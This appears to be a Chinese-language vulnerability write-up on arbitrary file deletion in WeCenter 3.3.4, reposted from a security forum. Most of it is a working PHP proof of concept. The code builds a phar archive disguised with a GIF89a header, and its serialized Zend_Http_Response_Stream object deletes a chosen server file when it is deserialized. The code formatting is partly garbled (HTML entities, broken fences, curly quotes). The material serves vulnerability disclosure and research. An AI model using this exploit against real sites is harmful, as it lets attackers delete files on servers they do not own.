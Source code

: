 # WeCenter 3.3.4 任意文件删除

> 原文：[https://www.zhihuifly.com/t/topic/3236](https://www.zhihuifly.com/t/topic/3236)

# WeCenter 3.3.4 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意文件删除

**system/Zend/Http/Response/Stream.php:__destruct()** 方法中存在任意文件删除。

![image](img/9d05f8bed0e623be7b6ef22af5b64dc3.png)

### poc

```
<?php
class Zend_Http_Response_Stream
{
    protected $_cleanup;
    protected $stream_name;

```
public function __construct($stream_name)
{
    $this-&gt;_cleanup = true;
    $this-&gt;stream_name = $stream_name;
} 
```

}

$stream_name = ‘/var/www/html/wecenter334/shell.php’;

$evilobj = new Zend_Http_Response_Stream($stream_name);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering(); `?>` 
```